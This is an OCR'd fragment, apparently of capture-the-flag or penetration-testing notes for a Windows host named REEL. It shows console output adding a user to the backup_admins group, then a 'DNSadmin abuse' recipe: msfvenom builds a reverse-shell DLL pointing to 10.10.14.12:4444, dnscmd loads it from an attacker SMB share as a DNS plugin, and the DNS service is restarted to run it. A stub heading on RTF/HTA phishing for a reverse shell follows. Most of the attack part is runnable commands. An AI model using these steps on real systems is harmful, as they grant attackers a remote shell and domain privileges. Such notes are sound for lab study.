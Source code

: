 ```bash
ranj                                                                                                                            
The command completed successfully.                                                                                             


claire@REEL C:\Users\claire>net group backup_admins claire /add                                                                 
The command completed successfully.                                                                                             


claire@REEL C:\Users\claire>net group backup_admins                                                                             
Group name     Backup_Admins                                                                                                    
Comment                                                                                                                         

Members                                                                                                                         

-------------------------------------------------------------------------------                                                 
claire                   ranj                                                                                                   
The command completed successfully.                                                                                             


claire@REEL C:\Users\claire>exit 
```

## DNSadmin abuse

Create dll with msfvenom

msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f dll > exp.dl

then do

dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.12\share\exp.dll

start the listener

sc stop dns
sc start dns


## Phishing with RTF Dynamite RTF Exploit

Create a .hta file for getting reverse shell.
